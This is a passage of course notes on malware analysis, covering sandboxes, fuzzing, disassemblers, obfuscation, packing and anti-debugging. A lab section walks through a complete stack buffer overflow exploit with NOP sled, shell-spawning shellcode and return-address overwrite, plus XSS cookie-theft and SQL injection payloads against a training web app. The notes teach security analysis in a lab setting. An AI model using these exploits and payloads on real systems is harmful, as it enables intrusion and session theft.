application-level (Java VM), OS-level (FreeBSD Jails), HW-level (VMMType I)

An \colorbox{green}{emulator} \colorbox{yellow}{duplicates the functions} of a system A using a system B that
behaves like A (e.g., MAME)

A \colorbox{green}{simulator} is a system designed to provide a \colorbox{yellow}{realistic imitation} of an \colorbox{yellow}{abstract}
\colorbox{yellow}{model} of a system (e.g., mathematical or physical model)

\subsection{Sandbox}

\colorbox{green}{Sandbox} is a security mechanism for \colorbox{yellow}{separating running programs}:\\
• often used to \colorbox{yellow}{execute untested} or untrusted programs or code\\
• \colorbox{pink}{no} (or limited) \colorbox{pink}{risk} to harm the host machine or operating system\\
• provides a \colorbox{pink}{tightly controlled} set of resources for guest programs to run in\\
• it can be based on virtualization (which can be used to emulate something)

pros:\\
• \colorbox{pink}{automate} the whole analysis
process\\
• process high volumes of malware\\
• get the \colorbox{pink}{actual executed code}\\
• can be very effective if used smartly

cons:\\
• can be \colorbox{pink}{expensive}\\
• some portions of the code might \colorbox{pink}{not be triggered}\\
• environment could be \colorbox{pink}{detected}

%TODO image

\subsection{Code Coverage Strategies}

The main disadvantage of all dynamic analysis is the \colorbox{yellow}{code coverage problem}:\\
• the analysis only ever sees the instructions that are actually executed during the
analysis run

If any crucial information is hidden in other instructions, the analysis will never
know about it:\\
• e.g., if we are dynamically analyzing a program that contains a logic bomb, we’ll never
find out until it’s too late\\
• in contrast, a close inspection using static analysis might have revealed this\\
• similarly, when dynamically testing software for bugs:\\
“Testing shows the presence, not the absence of bugs.” (Edsger WybeDijkstra)

Many malware samples even try to actively hide from dynamic analysis tools or
debuggers like gdb:\\
• we must reverse engineer and then disable the malware’s anti-analysis checks
(e.g., by overwriting those code bytes)\\
• it’s usually a good idea to at least augment the dynamic malware analysis with
static analysis methods\\

It’s \colorbox{pink}{difficult and time-consuming} to find the correct inputs to cover every
possible program path:\\
• dynamic disassembly will almost never reveal all possible program behavior

Several methods to improve the coverage of dynamic analysis tools:\\
• though, in general, none of them achieves the level of completeness provided by
static analysis


\subsection{Test Suites}

One of the \colorbox{pink}{easiest and most popular methods} to \colorbox{yellow}{increase code coverage} is
running the analyzed binary with known \colorbox{yellow}{test inputs}

Software developers often manually develop test suites for their programs:\\
• crafting inputs designed to cover as much of the program’s functionality as
possible

\subsection{Fuzzers}

\colorbox{green}{Fuzzers} are tools to \colorbox{yellow}{automatically generate inputs} to cover new code paths in a
given binary:\\
• e.g., AFL, Google’s OSS-Fuzz, ...

Fuzzers fall into two categories based on the way they generate inputs:\\
• \colorbox{green}{generation-based} fuzzers: generate inputs \colorbox{yellow}{from scratch} (possibly with knowledge of
the expected input format)\\
• \colorbox{green}{mutation-based} fuzzers: generate new inputs by \colorbox{yellow}{mutating known valid inputs} in
some way, for instance, starting from an existing test suite

The success and performance of fuzzers \colorbox{pink}{depend greatly} on the information
available to the fuzzer:\\
• white-, grey-, or black-box \colorbox{cyan}{approach} – depending on whether the fuzzer is aware of
program structure

Typically, used to search programs for bugs:\\
• permuting inputs until a crash is detected

\subsection{Symbolic Execution}

When executing an application, all variables assume concrete values:\\
• at each point in the execution, every CPU register and memory area contains some
particular value\\
• these values change over time as the application’s computation proceeds

Symbolic execution allows us to execute an application \colorbox{yellow}{not with concrete values} but
with symbolic values:\\
• we can think of symbolic values as \colorbox{yellow}{mathematical symbols}\\
• a symbolic execution is essentially an \colorbox{yellow}{emulation of a program}:\\
where all or some of the variables (or register and memory states) are represented using such
symbols

Example: Triton

The symbolic execution \colorbox{pink}{also computes path constraints} - restrictions on the
concrete values that the symbols could take given the branches that have
been traversed so far

\section{List of Binary Analysis Tools}

\subsection{Code Analysis Tools}
A disassembler is a program that translates machine code back to assembly code:\\
• it allows us to perform static code analysis: a technique to interpret the code to
understand the program’s behavior, without executing the binary

A debugger is a program which also disassembles the code and allows us to
execute the compiled binary in a controlled manner:\\
• we can execute either a single instruction or selected functions, instead of
executing the entire program\\
• also to perform dynamic code analysis, to examine the aspects of the suspect binary
while it is running

A decompiler is a program that translates the machine code into the code in a highlevel language (pseudocode):\\
• it can greatly assist with the reverse engineering process

\subsection{Disassemblers}
• IDA Pro (Windows, Linux, macOS)\\
• Hopper (Linux, macOS)\\
• ODA(Any platform)\\
• Binary Ninja (Windows, Linux, macOS)\\
• Relyze (Windows)\\
• Medusa (Windows, Linux)\\
• radare (Windows, Linux, macOS)\\
• objdump (Linux, macOS)

\subsection{Debuggers}
• gdb (Linux)\\
• OllyDbg (Windows)\\
• windbg (Windows)\\
• Bochs (Windows, Linux, macOS)

\subsection{Disassembly Frameworks}
• Capstone (Windows, Linux, macOS)\\
• distorm3 (Windows, Linux, macOS)\\
• udis86 (Linux, macOS)

\subsection{Binary Analysis Frameworks}
• angr (Windows, Linux, macOS)\\
• Pin (Windows, Linux, macOS)\\
• Dyninst (Windows, Linux)\\
• Unicorn (Windows, Linux, macOS)\\
• libdft (Linux)\\
• Triton (Windows, Linux, macOS)

\chapter{Lab 4 -  Shared Code Analysis}

Ensure that Address Space Layout Randomization (ASLR) is disabled
during relevant parts of the lab for consistent results. This can be achieved
with: \lstinline|echo 0 > /proc/sys/kernel/randomize_va_space|

\section{Buffer Overflows}

A buffer overflow occurs when a program writes more data to a buffer (a block of
memory) than it is designed to hold. This can overwrite adjacent memory, leading
to undefined behavior, including crashes, data corruption, or even arbitrary
code execution.

Stack-based Buffer Overflow:\\The most common type, occurring when
the overflow happens in the stack memory. Attackers exploit this to overwrite
return addresses, hijacking the program’s control flow.

Heap-based Buffer Overflow:\\ Overflowing buffers allocated on the
heap can corrupt memory structures, such as pointers or linked lists.

In an exploit, attackers often use NOP
(no operation) sleds to ensure execution reaches the malicious payload
(shellcode) reliably

Mitigation Techniques:\\
– Stack Canaries\\
– ASLR (Address Space Layout Randomization)\\
– DEP (Data Execution Prevention)

\subsection{ASLR}

The effect of Address Space Layout Randomization (ASLR) on the Extended
Stack Pointer (ESP) register;

Ensure ASLR is enabled by running:
\lstinline|echo 1 > /proc/sys/kernel/randomize_va_space|

Create and compile the esp.c file as follows:
\begin{lstlisting}
#include <stdio.h>
void main() {
  register int i asm("esp");
  printf("$esp = %#010x\n", i);
}
\end{lstlisting}

Compile with \lstinline|gcc -o esp esp.c| and run it a couple times; \lstinline|./esp|

Disable ASLR and repeat the commands; you will find that without ASLR, you will
get the same address every time as it is not being randomized.

Anytime you close a terminal or change from root to another user, address randomization is restored

\section{Analyzing and Exploiting Buffer Overflows}

Create the following program;
\begin{lstlisting}
  #include <string.h>
  #include <stdio.h>

  void main(int argc, char *argv[]) {
    copier(argv[1]);
    printf("Done!\n");
  }

  int copier(char *str) {
    char buffer[100];
    strcpy(buffer, str);
  }
\end{lstlisting}

The program itself does nothing useful, but it’s very simple. It
takes a single string argument, copies it to a buffer, and then prints "Done!".

Compile the program without modern protections against stack overflows,
and run it with an argument of "A":
\begin{lstlisting}
  gcc -g -z execstack -no-pie -o done done.c
  ./done A
\end{lstlisting}

strcpy, strcat, gets, etc - developers should avoid using as there is no way to
tell it how big the destination buffer is

Create a file with the following;
\begin{lstlisting}
  #!/usr/bin/python
  print('A' * 116)
\end{lstlisting}

Make the script executable and redirect its output to a file;
\begin{lstlisting}
chmod a+x exp1
./exp1 > out1
ls -l out1
\end{lstlisting}

Run the program with the new input; \lstinline|./done $(cat out1)|

The \$(cat out1) portion of this command prints out the contents of the
out1 file and feeds it to the program as a command-line argument.

The program crashes with a "Segmentation fault" message;
the strcpy() operation corrupts the stack, so the program cannot return
from copier() to main(). As it is, this is a stack smashing exploit — it
causes the program to crash.

To convert this stack smashing exploit into a code injection
exploit, we need to analyze what caused the segmentation fault
and gain control over it.

Execute the following commands to run the file in the GDB debugging environment,
list the source code, and set a breakpoint:
\begin{lstlisting}
  gdb -q done
  list 8
\end{lstlisting}
Because this file was compiled with symbols, the C source code is visible
in the debugger, along with line numbers. The number 8 here tells
GDB to display the c code lines around line 8. Note the line number of
the closing bracket \} for the "copier" function and use that instead of x
in the break command \lstinline|break x|.

The \lstinline|break x| command instructs the debugger to stop before executing
line x, allowing us to examine the state of the processor and memory. At
line we have stopped at, the \lstinline|strcpy()| operation has been completed, but
the program has not yet attempted to return from \lstinline|copier()|.

In the gdb debugging environment, execute these commands:
\begin{lstlisting}
  run A
  info registers
\end{lstlisting}
The code runs to the breakpoint, and shows the registers (Your values may be
different from the ones shown);

\includegraphics[width=.5\linewidth]{lab4 breakpoint}

Out of this list, two registers are interesting;\\
• \$esp: The stack pointer pointing at the top of the stack\\
• \$ebp: The base/frame pointer pointing at the beginning of the frame

Examine the stack by excuting the following command in the gdb debugging environment:\\
\lstinline|x/40x $esp|\\
This command is short for "eXamine 40 heXadecimal words, starting at
\$esp" and it shows the stack. The output for the command should look
something similar to the following (a list of 40 words in the stack starting
from the stack pointer);

\includegraphics[width=.8\linewidth]{lab4 examined words.png}

The highlighted region represents the stack frame for main(). It
starts at the 32-bit word pointed to by \$esp and continues through
the 32-bit word pointed to by \$ebp.

The bytes highlighted in yellow are the input string: "A" (0x41 in
ANSI code) followed by a null byte (00) to terminate the string.
Note that strings are placed in the stack backwards, in a right-to-left
fashion.

The word in the green box is the first word after \$ebp. This is the
return address – the address of the next instruction to be executed
after main() returns. Controlling this value is essential for the exploit
to work.

Feed the exploit into the program and observe the crash by excuting the
following command in the gdb environment: \lstinline|run $(cat out1)|
The program will then run to the breakpoint with 40 words in the stack filled
with "A" character;

\includegraphics[width=.8\linewidth]{lab4 A examined words.png}

The highlighted region is the stack frame for main(), starting at \$esp and
ending at \$ebp.

The stack contains a long string of "41" values because the input was a
long string of "A" characters.

The word in the green box is the return address – it’s now full of "41"
values too.

Use \lstinline|quit| to exit gdb. Modify the exploit output file:
\begin{lstlisting}
  cp out1 out2
  hexeditor out2
\end{lstlisting}

This copies your exploit output file out1 to a new file named out2 and
starts it in the hexeditor. Change the last four bytes from 41 41 41 41 to 31
32 33 34;

\includegraphics[width=.8\linewidth]{lab4 edit last 4.png}

Run the modified exploit in GDB:
\begin{lstlisting}
  gdb -q done
  break x
  run $(cat out2)
  info registers
  x/40x $esp
\end{lstlisting}
Observe the return address changes to 0x34333231; the return address updated with the value
edited in hexeditor

\includegraphics[width=.8\linewidth]{lab4 updated returned val.png}

This means you can control execution by placing the correct four bytes
here, in reverse order. However, there must be exactly 112 bytes before
the four bytes that will end up in \$eip.

\section{Adding a Shellcode Payload}

The shellcode is the payload of the exploit. It can perform any desired action,
but it must not contain any null bytes (00) because these would terminate the
string prematurely and prevent the buffer from overflowing.

While achieving root access in this environment is unnecessary since you
are already running as root on Kali Linux, the exploit demonstrates successful
control over the program. The same technique can be applied on other machines
to gain elevated access in real-world scenarios.

Shellcode to Spawn a "dash" Shell:
\begin{lstlisting}
  \x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
\end{lstlisting}
Note; This shellcode is 32 bytes long

There are some imperfections in the debugger, so an exploit that works in gdb
may fail in a real Linux shell. This happens because environment variables and
other details may cause the location of the stack to shift slightly.

A common and effective solution to address this issue is the use of a NOP
Sled. A NOP Sled is a sequence of 90 (No Operation) bytes, which are designed
to ensure the CPU "slides" through them until it reaches the payload.
For this exploit, we will use a 64-byte NOP Sled.

\begin{lstlisting}[language=python]
  #!/usr/bin/python2
  nopsled = '\x90' * 64
  shellcode = (
  '\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
  '\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
  '\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
  )
  padding = 'A' * (112 - 64 - 32)
  eip = '1234'
  print(nopsled + shellcode + padding + eip)
\end{lstlisting}

The second statement assigns 64 \textbackslash x90 (hexadecimal 90) characters
to a variable named nopsled.

The third statement assigns the 32-byte shellcode to a variable named
shellcode. This statement spans multiple lines.

The fourth statement creates a variable named padding that adjusts
the total payload length to 112 bytes.

The fifth statement defines a variable named eip, which contains the
bytes intended to overwrite the \$eip register, represented as '1234'
in this context.

The sixth statement outputs all the components (nopsled, shellcode,
padding, and eip) in the correct sequence.

\begin{lstlisting}
  chmod a+x exp2
  ./exp2 > out3
\end{lstlisting}

\section{Executing the exploit}
This loads the exploit, executes it, and stops so we can see the stack;
\begin{lstlisting}
  gdb done
  break x
  run $(cat out3)
  info registers
  x/40x $esp
\end{lstlisting}

\includegraphics[width=.5\linewidth]{lab4 exploit.png}

To exploit the program, you need to choose an address to overwrite \$eip.

Ideally, you could use the address of the first byte of the shellcode. However, to provide room for error, it is better to choose an address somewhere
in the middle of the NOP sled.

For the stack status shown, a good address to use is: 0xbffff2b0\\
Choose an appropriate address and note it down, as yours will be different

Update \$eip with the Chosen Address; We need to set \$eip to 0xbffff2b0.

However, because the Intel x86 processor uses a "little-endian" format, the
least significant byte of the address comes first. Therefore, the address
needs to be written in reverse byte order, like this:
\lstinline|eip = '\xb0\xf2\xff\xbf'|

Copy the exp2 script to create a new file: \lstinline|cp exp2 exp3|.
Update the eip value in the script as shown below:
\begin{lstlisting}[language=python]
  #!/usr/bin/python2
  nopsled = '\x90' * 64
  shellcode = (
  '\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
  '\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
  '\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
  )
  padding = 'A' * (112 - 64 - 32)
  eip = '\xb0\xf2\xff\xbf'
  print(nopsled + shellcode + padding + eip)
\end{lstlisting}

Make the program executable and generate the output file:
\begin{lstlisting}
  chmod a+x exp3
  ./exp3 > out4
\end{lstlisting}
Open the generated output file in a hex editor to verify its contents

To test the exploit in the gdb debugging environment, execute the following commands in the terminal:
\begin{lstlisting}
  gdb done
  break x
  run $(cat out4)
  info registers
  x/40x $esp
\end{lstlisting}

\includegraphics[width=.8\linewidth]{lab4 exploit running.png}

Next, in the gdb window, execute the following command: \lstinline|continue|

The exploit should work, executing a new program "/bin/dash", as indicated by
the "\$" prompt.

Note: You might see an "Error in re-setting breakpoint" message.
This can be ignored as long as you see the "\$" prompt.

You may need to adjust the return address values slightly
for the exploit to work in a real shell. This is a common issue
and the reason for including the NOP sled. If you encounter
a "segmentation fault" or "illegal instruction" error, use hexedit to
modify the return value in the exploit
file until it works. For example, you may need to add 0x20
to the address for the exploit to succeed.

\section{Web vulnerabilities}

Navigate to the XSS section and select "XSS (Reflected)". This is a
simple web application where you input a name, click submit, and receive
a greeting. For example, entering "Alice" produces the output "Hello Alice"

Input a name and view the page source; search for the name you just entered.
You will see it reflected in the page source, indicating that it may be vulnerable
to an XSS attack.

Replace the name with the following script and submit it:
\lstinline|<script>alert('XSS');</script>|. You will see the alert as there is
no input sanitation.

You can replace the alert('XSS') function in the payload with:
\lstinline|alert(document.cookie)|

This retrieves the cookie of the logged-in user on the victim browser. The
cookie can be used to log into the same web application from another browser,
a technique known as a Session Hijacking Attack.

Navigate to the XSS section and select "XSS (Stored)". If there are
entries already present, click Clear Guestbook. Enter a name in the
name field and the following script in the message field:
\lstinline|<script>alert('Stored XSS');</script>|

The script will run as it gets added to the page when it is being displayed as
part of the guestbook. This will occur everytime someone views the guestbook as
the script is stored.

Navigate to the SQL Injection section. In this section, you input an ID
number for a user, and the application queries the database to retrieve
the first and last name of the user with the given ID

Instead of entering a number, input the following payload:
\lstinline|1' OR '1'='1|

1' ends the value, OR becomes part of the SQL query and the last char is missing
an ' so that this can bve filled by the end of the query. The OR means that every
value fulfills the conditon, meaning that we see every field n the database.

Navigate to SQL Injection (Blind). Input different numbers and click
submit to see if a user with the provided ID exists in the database.

Now, try the following two payloads:
\begin{lstlisting}
  1' AND 1=1 #
  1' AND 1=2 #
\end{lstlisting}

Next, try the following payload:
\lstinline|1' AND sleep(5)#|. You will recieve the response after 5 seconds as
the server sleeps while executing the query

\chapter{Lecture 5 - Malware Anti-Analysis}

\section{Overview on Limits of Static and Dynamic Analysis}

Static analysis extracts properties and behaviors of a program without executing it (over-approximation):\\
• a \colorbox{green}{complete} static analyzer is \colorbox{yellow}{guaranteed to identify all violations} of a property $\upphi$, but may also report some
false positives

A \colorbox{green}{sound} static analysis under-approximates the behaviors of the program:\\
• any violation of a property $\upphi$ reported by a complete static analyzer corresponds to an \colorbox{yellow}{actual} violation of $\upphi$,
but there might be some false negatives

Some limits of static analysis are:
\begin{itemize}
  \item opaque predicates: conditions’ outcome known upfront, but hard to deduce statically - more complex CFGs
  \item anti-analysis: e.g., anti-disassembly, CFG flattening, but also packing - incomplete CFG
  \item indirect calls or jumps: partial CFG exploration
\end{itemize}

Opaque predicate typically refers to evaluating a decision where there is actually only one
outcome:\\
• e.g., calculating a condition that will always return True\\
• if (((X\^2 + X) mod 2) == 0))

\colorbox{green}{Control flow flattening} is an obfuscation method where programs do not cleanly flow from
beginning to end:\\
• instead, a \colorbox{yellow}{switch statement} is called in an \colorbox{yellow}{infinite loop} having multiple code blocks each performing
operations

\includegraphics[width=.5\linewidth]{control flow flattening.png}

With dynamic analysis, only the behaviors associated to the taken paths can be monitored\\
• typically, dynamic analysis under-approximates the behaviors of the program\\
• it is sound, there might be some false negatives

Conditional code obfuscation:\\
• historically, encryption, polymorphism and other obfuscation schemes have been primarily employed to
thwart anti-virus tools and static analysis-based approaches\\
• dynamic analysis based approaches inherently overcome all anti-static analysis obfuscations, but they
only observe a single execution path\\
• malware can exploit this limitation by employing \colorbox{yellow}{trigger-based behaviors} and testing the \colorbox{yellow}{presence of
  analyzers}, to hide its intended behavior:\\
e.g., time-bombs, logic-bombs, bot-command inputs

Some analyzers provide a powerful way to discover trigger-based malicious behavior in arbitrary
malicious programs:\\
• exploration of multiple paths during execution of a malware

\includegraphics[width=.6\linewidth]{conditional code obfuscation.png}

\colorbox{green}{Forced multi-path exploration};\\
• Assumption: the behavior of the program depends on the output of the
syscalls it executes\\
• \colorbox{yellow}{Track dependencies} between \colorbox{yellow}{syscalls} output and program \colorbox{yellow}{variables}\\
• Detect untaken paths and force the execution of these paths by \colorbox{yellow}{computing
  new program states} that satisfy the path conditions

\begin{figure}
  \centering
  \includegraphics[width=.5\linewidth]{complete and sound analysis.png}
  \caption{complete and sound analysis}
\end{figure}

One common problem to malware analysis (be it static or dynamic) is that of anti-analysis, e.g.:\\
• statically, e.g., packing/polimorphism to evade basic signature based\\
• dynamically, e.g., run-time checks to evade/confuse debuggers or sandboxes\\

In both cases, the main goal is not to be analysed properly:\\
• as not to being detected/classified as malware (or to be misclassified)\\

Anti-anti-analysis by security researchers:\\
• e.g., detecting sandbox evasion or improving sandbox transparency\\
• arms-race between malware authors and security researchers

\subsection{Limits of Static Analysis}

\subsubsection{Basic Obfuscation}

\colorbox{yellow}{Hide strings, code, signatures}

\colorbox{green}{Base64 encoding} allows an attacker to \colorbox{yellow}{encode binary data} via ASCII format:\\
• e.g., base64-encoded data in plain text protocols (e.g., HTTP)\\

Standard Base64 encoding use a 64-character set:\\
• each 3 bytes (24 bits) of the binary data is translated into four characters from the character set
(plus = for padding)

\begin{figure}
  \centering
  \includegraphics[width=.5\linewidth]{base64 table.png}
\end{figure}

Let’s assume we want to Base64 encode the text ”One”\\
To do this, we need to convert the letters to their corresponding bit values:\\
O -\textgreater 0x4f -\textgreater 01001111\\
n -\textgreater 0x6e -\textgreater 01101110\\
e -\textgreater 0x65 -\textgreater 01100101\\
The Base64 algorithm processes 3 bytes (24 bits) at a time\\
In this case, we have exactly 24 bits that are placed next to each other:\\
010011110110111001100101

The 24 bits are then split into four parts:\\
• each consisting of 6 bits and converted to its equivalent decimal value\\
• The decimal value is then used as an index to find the corresponding value in the Base64 index
table

The text ”One” encodes to ”T25l”:\\
010011 -\textgreater 19 -\textgreater base64 table lookup -\textgreater T\\
110110 -\textgreater 54 -\textgreater base64 table lookup -\textgreater 2\\
111001 -\textgreater 57 -\textgreater base64 table lookup -\textgreater 5\\
100101 -\textgreater 37 -\textgreater base64 table lookup -\textgreater l\\
Decoding Base64 is a simply the reverse process\\


Another common encoding algorithm used by the malware is the XOR:\\
• In a single byte \colorbox{green}{XOR}, \colorbox{yellow}{each byte} from the plaintext is \colorbox{yellow}{XORed with the encryption key}:\\
• e.g., encrypting ”cat” with 0x40, results in ”\#!4”


\begin{figure}
  \centering
  \includegraphics[width=.8\linewidth]{xor obfuscation.png}
\end{figure}
\begin{figure}
  \centering
  \includegraphics[width=.8\linewidth]{keylogger obfuscation example.png}
\end{figure}

In the enc\_function the malware uses single byte XOR:\\
• it reads each character from the data buffer and encodes with a key of 0x5A\\
In the following XOR loop:\\
• the edx register points to the data buffer\\
• the esi register contains the length of the buffer\\
• and the ecx register acts as an incremental index into the data buffer\\
• loop is continued as long as the index (ecx) is less than the buffer length (esi)

Attackers commonly use \colorbox{green}{multi-byte XOR} because it provides \colorbox{yellow}{better defense against the} \colorbox{yellow}{bruteforce technique}:\\
• e.g., if 4-byte XOR key to encrypt the data, we would have to try 4,294,967,295 (0xFFFFFFFF) possible
keys instead of 255 (0xFF) keys\\
• of course, more sophisticated encryption schemes do exist\\

Taidoor malware extracts the encrypted PE file from its resource section and decrypts it using the
4-byte XOR key 0xEAD4AA34

\subsubsection{Anti-Static Analysis Techniques}

Obfuscation refers to techniques that preserve the program’s semantics and functionality
while, at the same time, making it more difficult for the analyst to extract and comprehend
the program’s structure

Anti-Static Analysis Techniques;\\
• Junk insertion: introduces disassembly errors by inserting junk bytes at
selected locations into the code where the disassembler expects code
(locations not reachable at run-time)\\
• Branch functions: modify the normal behavior of a function call\\
• Overlapping instructions: sharing of code on different levels

\textbf{Junk Bytes}\\
Properties;\\
1. must be \colorbox{yellow}{partial instructions}\\
2. must be \colorbox{yellow}{inserted} in such a way that they are \colorbox{yellow}{unreachable at runtime}\\
Candidate block;\\
• have junk bytes \colorbox{yellow}{inserted before} it\\
• execution cannot fall through the candidate block\\
• basic block immediately before a candidate block must end with an \colorbox{yellow}{unconditional branch}

\includegraphics[width=.8\linewidth]{junk bytes eg.png}

At address 0x8048012, two junk bytes are added after the jump instruction at address 0x8048010

Inserting junk bytes at unreachable locations should not effect recursive disassemblers, but has a
\colorbox{pink}{profound impact on linear sweep} implementations

\textbf{Branch Functions}

\colorbox{yellow}{Change} the way regular \colorbox{yellow}{procedure calls} work\\
A normal call to a subroutine is replaced with a call to the branch function\\
It uses an \colorbox{yellow}{indirect jump} to transfer control to the original subroutine:\\
• in addition, an offset value is added to the return address of the subroutine\\
• which has been saved on the stack as part of the subroutine invocation\\
• when the subroutine returns, control is not transferred to the address directly after the call instruction:\\
an instruction that is a certain number of bytes after the call instruction is executed

Because calls are redirected to the branch function, \colorbox{pink}{large parts of the binary become unreachable}
for recursive traversal algorithms\\
• they might \colorbox{pink}{perform even worse} on obfuscated binaries than linear sweep disassemblers

In the previous figure, two junk bytes are inserted after the call to the branch function at address
0x8048003:\\
• at run-time, the branch function modifies the return address such that the next instruction that is executed
after the call is at address 0x804800a

\textbf{Overlapping Instructions}

Most disassemblers output a \colorbox{yellow}{single disassembly listing} per binary\\
Assumptions:\\
• each byte in a binary is mapped to at most one instruction\\
• each instruction is contained in a single basic block\\
• each basic block is part of a single function\\
Disassemblers typically \colorbox{yellow}{assume} that chunks of code \colorbox{yellow}{don’t overlap} with each other\\
Instruction overlapping breaks this assumption to confuse disassemblers:\\
• making the overlapping code more difficult to reverse engineer

Works because \colorbox{yellow}{instructions} on the x86 platform \colorbox{yellow}{vary in length}:\\
• the processor doesn’t enforce any particular instruction alignment in memory\\
• one instruction can \colorbox{yellow}{occupy a set of code addresses already occupied}

Obfuscators happily abuse overlapping instructions to confuse disassemblers\\
Instruction overlapping is especially easy on x86:\\
• its instruction set is extremely dense, meaning that nearly any byte sequence corresponds to some
valid instruction

\includegraphics[width=.5\linewidth]{overlapping insturctions eg.png}

\textbf{Packing}

A packer is basically an \colorbox{yellow}{encryption module} used to obfuscate the main malware code

Several packers available on the Internet today:\\
• \colorbox{pink}{not easily identified} by security products

Difference between packers and archiving utilities:\\
• packers are not generally employed by the average computer user (no need for any preinstalled utility on the
victim host)

\includegraphics[width=.6\linewidth]{packing.png}

When a normal executable is passed through a packer, the executable content is
\colorbox{yellow}{compressed}, and it adds an \colorbox{yellow}{unpacking stub}:\\
• decompression routine

The packer then \colorbox{yellow}{modifies the executable’s entry point} to the \colorbox{yellow}{location of the stub} and generates
a new packed executable

When the packed binary is executed, the unpacking stub extracts the original binary (during
runtime):\\
• then triggers the execution of the original binary by transferring the control to the original entry point (OEP)

\includegraphics[width=\linewidth]{packers.png}

\colorbox{green}{Packing In Several Layers};\\
• Malicious code hidden by $1^+$ \colorbox{yellow}{layers} of compression/encryption\\
• Decompression/decryption performed at run-time

\colorbox{green}{Algorithmic unpacking}:\\
implement in the AV a routine \colorbox{yellow}{semantically equivalent} to the one included
in the malware\\
• Use this routine to recover the original code

Packing \& Polymorphism;\\
In case algorithmic unpacking were effective...

\includegraphics[width=.8\linewidth]{packing polymorphism.png}

• Alter the packing routine in each malware sample\\
• Preserve the semantics

\colorbox{green}{Algorithmic-Agnostic Unpacking};\\
• Dynamic analysis\\
• \colorbox{yellow}{Emulation}/tracing of the \colorbox{yellow}{sample execution} until the “termination” of the packing
routine

\colorbox{green}{Self-Emulating} Malware;\\
\colorbox{yellow}{Heuristics} to \colorbox{yellow}{detect} the \colorbox{yellow}{end of the unpacking} are based on the “execution of
previously written code”

\includegraphics[width=.8\linewidth]{self-emulating malware.png}

1. The code of the malware is transformed in \colorbox{yellow}{bytecode}\\
2. Bytecode interpreted at run-time by a \colorbox{yellow}{VM}\\
3. Bytecode \colorbox{yellow}{mutated} in each sample

\subsubsection{Polymorphisms outbreak!}

Encrypted viruses:\\
• an encryption engine would encipher the text\\
• the first major breakthrough to avoid detection by anti-virus\\
• encipher the virus payload and utilize a decrypting module at runtime\\
• this prohibited the antivirus from detecting the virus through signatures\\
• \colorbox{yellow}{antivirus} started focusing on the \colorbox{yellow}{detection on the decryption module}

\colorbox{green}{Oligomorphic} viruses:\\
• \colorbox{yellow}{change their decryptors} in new generations, e.g. by using a set of decryptors instead of a single one\\
• \colorbox{pink}{slightly more challenging} than encrypted viruses for anti-virus\\
• dynamic decryption of the encrypted code

\includegraphics[width=.8\linewidth]{Oligomorphism.png}

\colorbox{green}{Polymorphic} viruses:\\
• \colorbox{yellow}{change layout} with each infection\\
• payload is encrypted, using \colorbox{yellow}{different key} for each infection\\
• makes \colorbox{pink}{static string analysis practically impossible}\\
• encryption routine must change too (or detection is trivial)

\includegraphics[width=.8\linewidth]{polymorphic.png}

\colorbox{green}{Metamorphic} viruses:\\
• create \colorbox{yellow}{semantically-equivalent} \colorbox{yellow}{completely different} \colorbox{yellow}{versions of code} at each infection\\
• AV scanners have a \colorbox{pink}{difficult} time detecting this type of virus because it can change its internal structure

“Metamorphics are body-polymorphics” (Igor Muttik)\\
• The whole payload of each sample differs from the others

\includegraphics[width=.8\linewidth]{Metamorphism.png}

How does it work?\\
1. Analyze its own code\\
2. Split the code in blocks\\
3. Mutate each block separately

\subsection{Limits of Dynamic Analysis}

\subsubsection{Anti-Debugging}
How can a process \colorbox{yellow}{detect if it is currently being traced}?\\
Example:\\
• int3 \& SIGTRAP
\begin{lstlisting}
  void handler(int x) {}
  void main() {
    signal(SIGTRAP, handler);
    asm("int3;");
  }
\end{lstlisting}
• \colorbox{yellow}{checksum} of the code (breakpoint software)\\
• ptrace()

A lot of tricks, usually exploited by malware

Examples;\\
• kernel32!IsDebuggerPresent\\
• PEB!NtGlobalFlags -> special flags set if run with a debugger\\
• ntdll!NtQueryInformationProcess, with ProcessInformationClass = ProcessDebugPort

\textbf{ptrace Trick}
\colorbox{yellow}{A process can have only one parent}, therefore a child process can be traced just by one parent
process\\
• \colorbox{yellow}{If} the child process is \colorbox{yellow}{traced}, ptrace() \colorbox{yellow}{returns an error} (-1)

\textbf{The Escape From The ptrace() Trick}

ptrace()is also a library function (easily to recognize with dynamic linking):\\
• \colorbox{yellow}{redefine ptrace() so that it always returns 0}

\subsubsection{Evading analysis systems}

Categories of system fingerprints;

\includegraphics[width=\linewidth]{fingerprints.png}

Comparing system architecture approaches, and their relative pros and cons for
analyzing evasive malware;

\includegraphics[width=\linewidth]{system arch.png}

\textbf{Sandbox Evasion}

\colorbox{green}{Red-pill}; \colorbox{yellow}{A program capable of detecting if it is executed in an emulator}

Example;
\begin{lstlisting}
  #include <stdio.h>
  int main () {

    unsigned char m[2+4], rpill[] = "\x0f\x01\x0d\x00\x00\x00\x00\xc3";
    *((unsigned*) &rpill[3]) = (unsigned) m;
    ((void(*) () ) &rpill) ();
    printf("idt base: %#x\n", *((unsigned*) &m[2]));

    if (m[5] > 0xd0) printf("Inside Matrix!\n", m[5]);
    else printf("Not in Matrix.\n");
    return 0;
  }
\end{lstlisting}
The heart of this code is the SIDT instruction (encoded as 0F010D[addr]):\\
• it stores the contents of the interrupt descriptor table register (IDTR) in the destination operand (a
memory location)

SIDT can be executed in non privileged mode (ring3) but it returns the contents of the
sensitive register, used internally by OS

There is only one IDTR register, however, there are at least two OS running in a VM concurrently
(i.e., the host and the guest OS):\\
• VMM needs to relocate the guest’s IDTR in a safe place, so that it will not conflict with a host’s one\\
• VMM cannot know if (and when) the process running in guest OS executes SIDT instruction (not
privileged and doesn’t generate exception)\\
• therefore, the process gets the relocated address of IDT table

\includegraphics[width=.5\linewidth]{redpill.png}

With sandboxes getting popular, malware writers are increasingly trying to \colorbox{cyan}{bypass them}

\colorbox{green}{Sleep}: \colorbox{yellow}{waiting to start} to fool malware-analyzer:\\
